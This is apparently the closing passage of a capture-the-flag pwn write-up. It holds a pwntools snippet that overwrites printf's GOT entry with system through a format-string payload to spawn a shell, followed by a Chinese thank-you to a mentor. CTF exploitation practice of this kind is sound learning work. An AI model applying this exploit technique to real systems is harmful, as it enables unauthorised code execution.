 ```python
print hex(libcbase)
one_gadget = libcbase + 0xf1147
offset = 8
payload = fmtstr(offset,elf.got['printf'],p64(system))
n.sendline(payload)
n.sendline("/bin/sh")
n.interactive()
```



#致谢

阮师傅tql，格式化字符串的轮子比fmtstr_payload好用了不是一点点

